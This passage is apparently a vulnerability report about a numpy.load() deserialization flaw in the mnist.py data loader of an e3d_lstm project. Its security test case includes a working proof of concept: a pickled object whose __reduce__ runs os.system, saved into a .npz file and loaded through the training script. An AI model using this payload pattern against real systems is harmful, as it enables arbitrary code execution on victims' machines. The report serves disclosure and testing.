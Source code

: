             self.data['clips'] = np.concatenate((dat_1['clips'], dat_2['clips']),
                                                axis=1)
            self.data['input_raw_data'] = np.concatenate(
                (dat_1['input_raw_data'], dat_2['input_raw_data']), axis=0)
            self.data['output_raw_data'] = np.concatenate(
                (dat_1['output_raw_data'], dat_2['output_raw_data']), axis=0)
    ```
    - **Analysis:** The lines `dat_1 = np.load(self.paths[0])` and `dat_2 = np.load(self.paths[1])` within the `load` function of the `InputHandle` class in `/code/src/data_provider/mnist.py` are vulnerable. They use `numpy.load()` without explicitly setting `allow_pickle=False`, thus inheriting the insecure default. This allows for the deserialization of pickled objects from `.npz` files, enabling arbitrary code execution.
- **Security Test Case:**
    1. **Create a malicious `.npz` file:**
        ```python
        import numpy as np
        import pickle
        import os

        command_to_execute = "touch /tmp/pwned_e3dlstm"  # Command to execute on the system

        class MaliciousObject:
            def __reduce__(self):
                return (os.system, (command_to_execute,))

        malicious_data = {'clips': np.array([[[0, 10]], [[10, 10]]]),
                          'input_raw_data': np.zeros((20, 64, 64, 1)),
                          'output_raw_data': np.zeros((20, 64, 64, 1)),
                          'dims': np.array([(64, 64, 1), (64, 64, 1)]) ,
                          'malicious_code': MaliciousObject()}

        np.savez('malicious.npz', **malicious_data)
        ```
    2. **Run the training script with the malicious `.npz` file:**
        ```bash
        python run.py \
            --is_training True \
            --dataset_name mnist \
            --train_data_paths malicious.npz \
            --valid_data_paths malicious.npz \
            --save_dir checkpoints/_mnist_e3d_lstm \
            --gen_frm_dir results/_mnist_e3d_lstm \
            --model_name e3d_lstm \
            --allow_gpu_growth True \
            --img_channel 1 \
            --img_width 64 \
            --input_length 10 \
            --total_length 20 \
            --filter_size 5 \
            --num_hidden 64,64,64,64 \
            --patch_size 4 \
            --layer_norm True \
            --sampling_stop_iter 50000 \
            --sampling_start_value 1.0 \
            --sampling_delta_per_iter 0.00002 \
            --lr 0.001 \
            --batch_size 4 \
            --max_iterations 1 \
            --display_interval 1 \
            --test_interval 1 \
            --snapshot_interval 10000
        ```
    3. **Verify code execution:**
        ```bash
        ls /tmp/pwned_e3dlstm